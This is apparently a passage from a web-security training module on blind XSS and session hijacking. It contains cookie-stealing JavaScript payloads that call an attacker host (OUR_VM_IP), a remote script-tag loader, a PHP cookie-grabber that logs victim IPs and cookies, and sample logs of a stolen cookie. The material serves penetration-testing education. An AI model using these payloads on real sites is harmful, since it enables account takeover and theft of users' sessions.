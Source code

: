 Once we submit the form, we wait a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload, and so on. Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.

Try testing various remote script XSS payloads with the remaining input fields, and see which of them sends an HTTP request to find a working payload.

### Session Hijacking

Once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS exploitation and perform a Session Hijacking attack.

A session hijacking attack is very similar to the phishing attack we performed in the previous section. It requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):
```javascript
document.location='http://OUR_VM_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_VM_IP/index.php?c='+document.cookie;
```

Using any of the two payloads should work in sending us a cookie, but we'll use the second one, as it simply adds an image to the page, which may not be very malicious looking, while the first navigates to our cookie grabber PHP page, which may look suspicious.

We can write any of these JavaScript payloads to `script.js` (if we want we can rename it as `fullname` and `username` files for the different input fields for understanding which of them are vulnerable), which will be hosted on our VM as well:
```javascript
new Image().src='http://OUR_VM_IP/index.php?c='+document.cookie
```
Now, we can change the URL in the XSS payload we found earlier to use `script.js` (don't forget to replace `OUR_VM_IP` with your VM IP in the JS script and the XSS payload):
```html
<script src=http://OUR_VM_IP/script.js></script>
```
With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. However, if there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.

We can save the following PHP script as `index.php`, and re-run the PHP server again:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for `script.js`, which in turn will make another request with the cookie value:
```
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```